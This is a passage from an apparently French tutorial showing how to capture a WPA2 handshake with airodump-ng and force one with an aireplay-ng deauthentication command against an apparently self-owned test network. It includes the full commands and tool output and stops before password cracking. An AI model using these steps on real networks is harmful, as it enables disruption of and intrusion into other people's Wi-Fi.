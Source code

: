 Les réseaux voisins (BSSID) vont alors apparaître ainsi que tous les clients (périphériques) connectés. Dans cet article, le réseau `HACK-MOI-SI-TU-PEUX` va être piraté.

```shell
CH 13 ][ Elapsed: 2 mins ][ 2020-11-22 12:40

BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID  
VV:II:CC:TT:IM:EE  -56       84       40    0  11  195   WPA2 CCMP   PSK  HACK-MOI-SI-TU-PEUX

BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
VV:II:CC:TT:IM:EE  UT:IL:IS:AT:EU:RR  -55    0e- 0e     0       33   

```

Cette commande donne une vue d'ensemble des réseaux disponibles ainsi que tous les clients qui émettent des paquets (qu'ils soient associés à un BSSID ou non).
La commande suivante va permettre de se "concentrer" sur un seul BSSID et ainsi **écouter tous les paquets à sa destination pour enregistrer les fichiers d'initialisation de connexion (Handshake)**. Un canal de wifi doit être défini ainsi que le BSSID a écouter :

```shell
sudo airodump-ng -c 11 --bssid VV:II:CC:TT:IM:EE -w output wlan0mon
```

Pour l'instant, aucune capture d'initialisation de connexion n'a été effectuée.
```shell
CH 11 ][ Elapsed: 54 s ][ 2020-11-22 12:43

BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                   
VV:II:CC:TT:IM:EE  -49  62      443      416    2  11  195   WPA2 CCMP   PSK  HACK-MOI-SI-TU-PEUX

BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
VV:II:CC:TT:IM:EE  UT:IL:IS:AT:EU:R2  -43    0 - 0      0        9
VV:II:CC:TT:IM:EE  UT:IL:IS:AT:EU:RR  -57    0e- 0      0      374
```

Sur un autre terminal toujours en écoutant le BSSID cible, un paquet de désauthentification doit être envoyé grâce à l'utilitaire `aireplay-ng` en spécifiant le BSSID cible et l'adresse MAC du client cible :
```shell
sudo aireplay-ng -0 1 -a VV:II:CC:TT:IM:EE -c UT:IL:IS:AT:EU:RR wlan0mon
```
Le résultat est le suivant :
```shell
12:52:38  Waiting for beacon frame (BSSID: VV:II:CC:TT:IM:EE) on channel 11
12:52:39  Sending 64 directed DeAuth (code 7). STMAC: [UT:IL:IS:AT:EU:RR] [10|63 ACKs]
```

Dans le terminal où l'écoute du BSSID cible est active, le paquet d'initialisation est alors récupéré, représenté par la valeur `WPA handshake: VV:II:CC:TT:IM:EE` :

```shell
CH 11 ][ Elapsed: 1 min ][ 2020-11-22 12:53 ][ WPA handshake: VV:II:CC:TT:IM:EE

BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID  
VV:II:CC:TT:IM:EE  -49  71      600      562    8  11  195   WPA2 CCMP   PSK  HACK-MOI-SI-TU-PEUX

BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
VV:II:CC:TT:IM:EE  UT:IL:IS:AT:EU:RR  -51    0e- 0      0      644  EAPOL
VV:II:CC:TT:IM:EE  UT:IL:IS:AT:EU:R2  -60    0e- 0      0       48
```
Les fichiers `output-01.cap`, `output-01.csv`, `output-01.kismet.csv`, `output-01.kismet.netxml`, `output-01.log.csv` sont alors apparus dans le répertoire courant. L'étape suivante est de **casser le mot de passe du réseau wifi**.
